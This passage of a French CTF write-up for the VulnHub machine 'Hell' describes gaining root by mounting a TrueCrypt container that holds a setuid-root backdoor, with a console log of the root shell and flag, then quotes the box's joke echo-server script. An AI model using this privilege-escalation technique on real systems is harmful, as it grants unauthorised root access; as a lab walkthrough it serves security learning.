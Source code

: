 Beating Hell
------------

*Truecrypt* permet de monter des volumes chiffrés sur le système. On est donc dans le cadre d'une faille de type montage de dossier avec permissions... permissives :p  

Comme *Truecrypt* n'est pas dans les dépôts *openSUSE* et que sa version rebadgée (*Realcrypt*) n'est pas sur un dépôt officiel j'ai choisi de lancer un *Kali Linux* dans une VM le temps de créer un conteneur *Truecrypt*.  

Le principe est simple : on créé un petit container (10M) montable sous Unix avec système de fichier *ext2* (important, car il doit supporter les permissions Unix). Dedans on place une backdoor setuid root puis on démonte le conteneur pour le recopier sur le système du CTF.  

Après on le monte depuis *Hell* et on lance la backdoor :  

```console
george@hell:~$ truecrypt /tmp/crypted.tc /media/truecrypt1
Enter password for /tmp/crypted.tc: 
Enter keyfile [none]: 
Protect hidden volume (if any)? (y=Yes/n=No) [No]: 
george@hell:~$ /media/truecrypt1/getroot 
root@hell:~# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(george)
root@hell:~# cat /root/flag.txt 
Congratulations of beating Hell. 

I hope you enjoyed it and there weren't to many trolls in here for you. 

Hit me up on irc.freenode.net in #vulnhub with your thoughts (Peleus) or follow me on twitter @0x42424242

Flag: a95fc0742092c50579afae5965a9787c54f1c641663def1697f394350d03e5a53420635c54fffc47476980343ab99951018fa6f71f030b9986c8ecbfc3a3d5de
```

Trolololololol
--------------

Parlons de trolls poilus justement ! Le système utilisé pour le CTF est une Debian 7.5 32bits. Dès lors comment se fait-il que `echoserver.bak` était en 64bits ?  

Voici le contenu de `/root/echoserver.py` :  

```python
#!/usr/bin/python
# Trololol lol lol lol lol
import socket
import thread
import random
import sys

def EchoClientHandler(clientSocket, addr) :
        clientSocket.send("\nWelcome to the Admin Panel\n")
        clientSocket.send("Archiving latest version on webserver (echoserver.bak)...\n")
        clientSocket.send("Starting echo server and monitoring...\n")
        while 1:
                trollpoint = random.randint(1,17)
                client_data  = clientSocket.recv(2048)
                if client_data:
                        if len(client_data) > 1000:
                                clientSocket.send("Segmentation fault")
                                sys.exit(0)
                        else :
                                clientSocket.send(client_data)
                else :
                        clientSocket.close()
```